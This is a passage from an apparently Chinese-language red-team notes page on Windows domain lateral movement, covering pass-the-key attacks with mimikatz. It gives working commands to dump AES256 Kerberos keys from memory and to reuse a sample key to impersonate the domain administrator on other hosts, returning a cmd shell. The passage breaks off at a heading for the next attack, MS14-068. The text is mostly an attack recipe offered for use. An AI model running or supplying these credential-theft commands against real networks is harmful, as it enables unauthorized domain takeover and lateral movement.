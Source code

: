[![](assets/1702372940-70d52ce936d25fa8be8e3f6148bc6936.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/24.png)

## [](#PTK-mimikatz "PTK-mimikatz")PTK-mimikatz[](#PTK-mimikatz)

如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功。对于`8.1/2012r2`，安装补丁 kb2871997 的`Win 7/2008r2/8/2012`等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

-   **pth**：没打补丁用户都可以连接，打了补丁只能 administrator 连接
-   **ptk**：打了补丁才能用户都可以连接，采用 aes256 连接

1.  首先使用 mimikatz 获取 aes256

```bash
mimikatz sekurlsa::ekeys
```

2.  攻击该域内其它主机，成功后返回 cmd

```bash
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae
```

## [](#PTT-ms14068 "PTT-ms14068")PTT-ms14068[](#PTT-ms14068)
